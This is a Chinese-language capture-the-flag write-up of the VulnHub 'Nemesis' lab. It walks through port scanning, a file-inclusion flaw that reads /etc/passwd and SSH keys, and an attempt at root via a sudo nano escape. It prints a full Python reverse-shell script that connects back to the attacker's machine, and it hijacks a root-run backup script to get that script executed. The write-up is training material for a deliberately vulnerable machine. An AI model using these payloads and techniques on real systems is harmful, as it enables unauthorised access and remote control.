# vulnhub系列——Nemesis

# 一、信息收集

1. 主机发现

   ``` shell
   sudo arp-scan -l
   ```

   

2. 发现主机，扫描端口

   ``` shell
   nmap -Pn -sV -sC -p- 192.168.50.164
   ```

   

3. 发现开放了80、52845、52846端口，其中80与52845端口为web服务，52846为ssh，识别一下指纹

   ``` shell
   whatweb 192.168.50.164
   ```

   

4. 中间件是Apache 2.4.38，主机系统是Debian，JS为JQuery3.2.1，Bootstrap3.3.1，还有一个邮箱[sales@aspiresoftware.in](mailto:sales@aspiresoftware.in)。扫描一下目录

   - 80端口的web目录

     ``` shell
     dirsearch -u http://192.168.50.164 -e *
     ```

     

   - 52845端口的web目录

     ``` shell
     dirsearch -u http://192.168.50.164:52845 -e *
     ```

     

# 二、外网突破

## 80端口

1. 访问一下主页，顶部有联系方式

   ``` shell
   +91 848 594 5080
   sales@aspiresoftware.in
   ```

2. 发现中间有一段话，翻译一下，意思是有一个新的网站，让我们找到漏洞并修复

   

   

3. 访问一下login.html

   

4. 没有注入，F12查看源码，在JS脚本里面发现表单验证，有一个html文件名和疑似用户名密码的字符串，记录下来

   

5. 尝试用这个用户名和密码登录，跳转到了http://192.168.50.164/thanoscarlos.html，这个页面没什么有用的东西

   

6. 看一下80端口的robots.txt文件，提示找真实漏洞，没啥用

7. 看一下contact页面，发现一段PHP代码

   

8. 测试一下，没有回显

   ``` shell
   http://192.168.50.164/contact.php?name=a&email=b&message=ls
   http://192.168.50.164/contact.php?name=a&email=b&message=../../../../etc/passwd
   ```

## 52845端口

1. 80端口测试无果，看下52845端口，先识别一下指纹信息，一个HTML制作的页面，邮箱[hello@w3template.com](mailto:hello@w3template.com)，中间件是nginx1.14.2

   ``` shell
   whatweb 192.168.50.164:52845
   ```

   

2. 访问一下，一个单页面，底部有一个contact表单

   

3. 底部的contact表单跟80端口中contact页面发现的那段PHP代码有点像，也是三个参数

   

4. F12查看源码，JS代码里面发现读取文件的函数，感觉漏洞就在这里了

   

   

5. 测试一下

   

6. 发送后弹窗，提示已经保存到文件

   

7. 直接包含/etc/passwd文件

   

8. 成功回显/etc/passwd文件，确认是一个文件包含漏洞

   

9. 发现有两个用户可以登录carlos、thanos，其中thanos用户跟在80端口的login页面发现的可疑用户一样，如果thanos是用户名，那么hacker_in_the_town就是密码了，测试一下

   

10. 连接失败，提示使用公钥文件登录，尝试用文件包含漏洞读取公钥文件

    

11. 成功读取到公钥，尝试连接ssh

    

12. 格式有点乱，用BurpSuite抓包一下，复制公钥，保存到本地

    

13. 给公钥文件赋权777，连接ssh，成功获取shell，ls找到第一个flag

    ``` shell
    sudo ssh thanos@192.168.50.164 -p 52846 -i id_rsa
    ```

    

# 四、权限提升

## （一）提权到carlos

1. 当前用户thanos权限较低，需要提权，`sudo -l`提示密码错误，看一下当前目录下有些什么

   

2. 有一个backup.py文件属于carlos用户组，cat看一下内容

   

3. 是一个备份文件，backup.py将/var/www/html目录备份到了/tmp/website.zip，而且是以root权限去运行的，那就可以用这个文件进行提权。

4. 先在kali上创建一个zipfile.py文件

   ``` python
   import socket,subprocess,os
   s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
   s.connect(("192.168.50.214",4444))
   os.dup2(s.fileno(),0)
   os.dup2(s.fileno(),1)
   os.dup2(s.fileno(),2)
   p=subprocess.call(["/bin/sh","-i"])
   ```

5. kali上开启监听和http服务

   ``` shell
   nc -lvnp 4444
   python3 -m http.server
   ```

   

6. 靶机上下载zipfile.py文件`wget http://192.168.50.214:8000/zipfile.py`，下载成功后靶机会自动执行backup.py脚本进行备份

   

7. 稍等一下就可以看到kali上接收到了反弹shell，ls发现flag2.txt和root.txt

   

## （二）提权到root

1. 切换交互式shell

   ``` python
   python3 -c 'import pty;pty.spawn("/bin/bash")'
   ```

   

2. 看一下flag2.txt和root.txt的内容

   

3. root.txt提示carlos用户的密码已经被加密，加密代码存储在encrypt.py文件中，要我们破解加密内容

   ``` shell
   ************FUN********
   ```

4. encrypt.py内容如下

   ``` python
   def egcd(a, b):  
       x,y, u,v = 0,1, 1,0  
       while a != 0:    
           q, r = b//a, b%a    
           m, n = x-u*q, y-v*q    
           b,a, x,y, u,v = a,r, u,v, m,n
       gcd = b  return gcd, x, y
   
   def modinv(a, m):  
       gcd, x, y = egcd(a, m)  
       if gcd != 1:    
           return None  
       else:    
           return x % m
   def affine_encrypt(text, key):  
       return ''.join([chr(((key[0]*(ord(t) - ord('A')) + key[1] ) % 26) + ord('A')) for t in text.upper().replace(' ', '')])
   
   def affine_decrypt(cipher, key):  
       return ''.join([chr(((modinv(key[0], 26)*(ord(c) - ord('A') - key[1])) % 26) + ord('A')) for c in cipher])
   
   def main():  
       text = 'REDACTED'  
       affine_encrypted_text="FAJSRWOXLAXDQZAWNDDVLSU"  
       key = [REDACTED,REDACTED]  
       print('Decrypted Text: {}'.format(affine_decrypt(affine_encrypted_text, key) ))
       
   if __name__ == '__main__':  
       main()
   ```

5. 应该是通过affine_encrypt函数进行加密的，密码是FAJSRWOXLAXDQZAWNDDVLSU的一种组合，有点头大，看了下网上的教程，可以通过这个网站进行解密https://www.dcode.fr/chiffre-affine

   

6. 左侧就是解密结果，对比一下root.txt中的提示，对比一下，第一个就是密码

   ``` shell
   ENCRYPTIONISFUNPASSWORD
   ```

7. `sudo -l`，输入密码，发现可以用nano提权到root

   

8. 网上找到利用方法，步骤如下，但是实验时nano中ctrl + r无效，无法写入命令，经过多次尝试最终提权到root失败了

   ``` shell
   sudo /bin/nano /opt/priv
   Ctrl + r
   Ctrl + x
   reset; sh 1>&0 2>&0
   ```